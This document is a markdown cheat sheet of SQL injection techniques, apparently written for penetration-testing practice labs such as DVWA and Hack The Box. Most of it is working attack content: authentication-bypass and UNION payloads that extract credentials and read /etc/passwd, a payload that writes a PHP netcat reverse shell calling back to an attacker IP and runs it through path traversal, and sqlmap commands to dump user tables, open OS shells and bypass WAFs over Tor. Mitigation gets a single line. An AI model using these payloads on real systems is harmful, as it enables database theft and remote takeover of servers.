 # SQL Injection

## Types
- MySQL
  - Error Based
    - ```'``` & ```"``` & ```\``` & ```)``` & tilda
  - Blind 
    - Boolean
      - True: ```id=1" and 1=1--```
      - False: ```id=1" and 1=2--```
      - Other
        - ```id=1' and 1=1--+```
        - ```id=1' and 1=1#```  
    - Time Based
      - ```id=1' and sleep(5)--```
      - ```id=';waitfor delay '0:0:5'--```

## Payloads
```
a' or '1'='1
a' or '1'='1'%23
a' or 1=1%23
a'%09or%09'1'='1
a'or'1'='1
a'/**/or/**/'1'='1
2 or 1=1
2%0Aor 1=1
` desc %23
IF(0,name,age)
' or 1=1#
' or 1=1--
' or 1=1 LIMIT 1 #
2 union all select * from users
```

## Tips
- True statement: ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1```
- False statement: ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```
- Space: ```+``` & ```/**/``` & ```%20```
- Comment: ```/*``` & ```//``` & ```;//``` & ```#``` & ```%23```

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 

- Data Extracting 
  - Seleting database version, Database, user
    - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - Database tables 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables``` 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - Table Columns
    - ```... union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - Selecting data from table 
    - ```... union select 1,username,password,is_admin,5 from accounts``` 
  - Reading files
    - ```... union select null,load_file('/etc/passwd'),null,null,null``` 
  - Writing files
    - ```UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*``` 

- Shell upload 
  - Payload 
    - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin:
    - nc -vv -l -p 8080
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```

## Mitigation
- Use parametrized statements, separate data from sql code


## SQLMAP
- Commands
  - ```sqlmap --help```
  - ```sqlmap -u [target url]```
  - ```sqlmap -u [target url] --os-shell```
  - ```sqlmap -u [target url] --sql-shell```

- Login page
```
sqlmap -u https://admin-portal.htb/login.php --form --dbs
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass"
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" --dbs
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin --tables
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin -T users --columns
sqlmap -u https://admin-portal.htb/login.php --dbms=mysql --data "email=test@test.nz&password=pass" -D admin -T users --dump
```

- Switches
  - Level: ```--dbs --level 5```
  - Risk: ```--risk 3```
  - POST: ```sqlmap -u “http://testfire.net/login.jsp” --form --dbs``` 
  - Technique: ```techniques=B --dbs```
    - ```B``` => Blind Boolean
    - ```T``` => Blind Time-based
    - ```E``` => Error-based
    - ```U``` => Union
  - Tor: ```--tor```
  - Shell
    - ```sqlmap -u “...” --sql-shell```
    - ```sqlmap -u “...” --os-shell```
  - WAF Bypass 
    - Path: /usr/share/sqlmap/tamper 
    - ```--tamper=space2dash, hex2char --dbs```
